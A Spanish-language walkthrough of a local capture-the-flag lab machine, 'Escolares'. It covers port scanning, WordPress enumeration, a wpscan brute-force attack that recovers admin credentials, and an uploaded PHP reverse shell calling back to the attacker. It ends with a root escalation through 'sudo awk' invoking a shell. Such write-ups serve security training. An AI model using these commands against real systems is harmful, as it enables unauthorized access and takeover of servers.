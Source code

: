 # Maquina Escolares
- Tags: #ps
---
## Enlace al laboratorio
**[Máquina Escolares](https://mega.nz/file/ZXckGSob#QBn80M3tFNTrKCJwZ1lIh-9Rafx5sdlG3lyCT9FPYes)**

## Configuración Laboratorio
```bash
7z x escolares.zip # Desplegamos el laboratorio
sudo bash auto_deploy.sh escolares.tar # Desplegamos el laboratorio
```

## Fase Reconocimiento
**Dirección IP del target**
```bash
172.17.0.2
```

**Lanzamos una traza ICMP para determinar si tenemos conectividad con el target**
```bash
ping -c 1 172.17.0.2
```

**Gracias al TTL determinamos que estamos ante una máquina Linux**
```bash
wichSystem.py 172.17.0.2
172.17.0.2 (ttl -> 64): Linux
```

## Fase Enumeración Puertos y Servicios
**Realizaremos descubrimiento de puertos con nuestra herramienta en python mediante TCP**
```bash
escanerTCP.py -t 172.17.0.2 -p 1-65000
```

**Usamos Nmap para realizar descubrimiento de puertos**
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

**Parseamos la información más relevante del escaneo**
```bash
extractPorts allPorts
```

**Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detrás de estos puertos**
```bash
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted
```

**Servicio SSH expuesto:**
```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
```

## Fase Enumeración Web
**Realizamos detección de las tecnologías usadas por este servicio**
```bash
whatweb http://172.17.0.2 # No reporta nada crítico
```

**Realizamos enumeración de rutas con un script**
```bash
nmap --script http-enum -p 80 172.17.0.2
```

**Resultado:**
```
/wordpress/: Blog
/info.php: Possible information file
/phpmyadmin/: phpMyAdmin
/wordpress/wp-login.php: Wordpress login page.
```

**Ingresando al sitio detectamos que posiblemente estamos ante un CMS WordPress**
```bash
http://172.17.0.2/
```

**Realizamos Fuzzing para enumerar directorios en la web**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

**Resultado:**
```
/assets/              (Status: 200) [Size: 1963]
/wordpress/           (Status: 200) [Size: 84176]
/phpmyadmin/          (Status: 200) [Size: 18605]
```

**Tenemos un formulario de contacto donde encontramos una ruta no detectada previamente: `/profesores.html`**
```bash
http://172.17.0.2/contacto.html # Probaremos sanitización de inputs
```

**En esta nueva ruta tenemos información de posibles usuarios en el sistema. Posible usuario administrador: `luis`**

### Fase Enumeración WordPress
**Realizando Fuzzing sobre WordPress**
```bash
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,xml,txt,js,html,sh
```

**Resultado:**
```
/wp-content           (Status: 301) [Size: 323]
/wp-login.php         (Status: 200) [Size: 6590]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 324]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321]
/xmlrpc.php           (Status: 405) [Size: 42]
```

**Tenemos un código de estado 302 Redirect que requiere configuración en `/etc/hosts`**
```bash
/wp-signup.php        (Status: 302) [Size: 0] [--> http://escolares.dl/wordpress/wp-login.php?action=register]
```

**Configuración de `/etc/hosts`:**
```
# Target    Domain
172.17.0.2  escolares.dl
```

**Accedemos bajo el nuevo dominio:**
```bash
http://escolares.dl/ 
http://escolares.dl/wordpress/ # Obtenemos posible sobrenombre de administrador: luisillo
```

**Realizamos enumeración con wpscan para el usuario luis (administrador)**
```bash
diccionario_cupp.txt # Diccionario personalizado basado en: luis / luisillo
```

**Aplicamos ataque de fuerza bruta:**
```bash
wpscan --url http://escolares.dl/wordpress/ -U luisillo --passwords diccionario_cupp.txt
```

**Credenciales válidas:**
```
username: luisillo
password: Luis1981
```

**URL para probar credenciales:**
```bash
/admin (Status: 302) [Size: 0] [--> http://escolares.dl/wordpress/wp-admin/]
```

## Fase Explotación
**Nota:** Atacaremos el archivo: `WP File Manager > Wordpress > uploads` para subir un reverse shell PHP

**Descargamos el script de reverse shell:**
```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git --depth=1
```

**Configuramos parámetros en `php-reverse-shell.php`:**
```php
$ip = '$IP';    # Nuestra dirección IP
$port = $PORT;  # Puerto en escucha
```

**Una vez cargado en `uploads`, accedemos al recurso:**
```bash
http://172.17.0.2/wordpress/wp-content/uploads/php-reverse-shell.php
```

## Fase Escalada de Privilegios
**Listando el directorio `/home`:**
```bash
ls -l /home
-rwxrwxrwx 1 root     root       23 Jun  8  2024 secret.txt
```

**Credenciales del usuario luisillo:**
```bash
luisillopasswordsecret
```

**Migración de usuario:**
```bash
su luisillo # (luisillopasswordsecret)
```

**Verificamos permisos sudo:**
```bash
sudo -l
```

**Resultado:**
```
User luisillo may run the following commands on 70f7732de030:
    (ALL) NOPASSWD: /usr/bin/awk
```

### Fase Escalada a Root
**Explotamos el binario awk:**
```bash
sudo -u root /usr/bin/awk 'BEGIN {system("/bin/bash -p")}'
```

**Verificamos privilegios:**
```bash
root@70f7732de030:~# whoami
root
```